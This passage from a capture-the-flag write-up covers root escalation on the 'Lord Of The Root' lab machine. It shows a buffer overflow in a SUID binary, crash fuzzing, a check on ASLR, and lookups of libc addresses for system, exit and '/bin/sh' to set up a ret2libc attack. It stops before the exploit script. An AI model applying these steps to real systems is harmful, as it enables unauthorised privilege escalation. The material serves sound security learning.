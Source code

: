 ### SUID Binary

So I tried to cause a crash passing it 500 characters as parameter.

```console
smeagol@LordOfTheRoot:~$ for x in {1..3}; do echo $x; /SECRET/door$x/file $(python -c 'print("A"*500)'); done
1
2
Segmentation fault (core dumped)
3
```

The crash was triggered on the file of the door2, since this vulnerable binary randomly switches doors in a certain period of time, I decided to make a copy of this to another directory.

```console
smeagol@LordOfTheRoot:~$ ls -la /SECRET/door* | grep file
-rwsr-xr-x 1 root root 7370 Sep 17  2015 file
-rwsr-xr-x 1 root root 5150 Sep 22  2015 file
-rwsr-xr-x 1 root root 7370 Sep 17  2015 file

smeagol@LordOfTheRoot:~$ cp /SECRET/door2/file .
```

Before to start debugging, I was able to detect that the ASLR protection is enabled, since we can see that only two values of the memory address are changing, we can brute force to bypass this.

```console
smeagol@LordOfTheRoot:~$ cat /proc/sys/kernel/randomize_va_space
2
smeagol@LordOfTheRoot:~$ ldd file | grep 'libc'
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7546000)
smeagol@LordOfTheRoot:~$ ldd file | grep 'libc'
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7521000)
smeagol@LordOfTheRoot:~$ ldd file | grep 'libc'
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb752e000)
```

Exists a technique named ret2lib, this does not require of a shellcode to exploit it, we need to find the memory address of **system, exit and shell**, as shown below:

```console
smeagol@LordOfTheRoot:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -w 'system'
  1443: 00040190    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
  
smeagol@LordOfTheRoot:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -w 'exit'
   139: 000331e0    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  
smeagol@LordOfTheRoot:~$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep '/bin/sh'
 160a24 /bin/sh
```

The following python script helped me to brute force and exploit the vulnerable binary automatically, an interesting article that talks about this topic you can find it [here](https://akshit-singhal.medium.com/how-to-bypass-aslr-to-perform-buffer-overflow-attacks-2d5f6707399c).
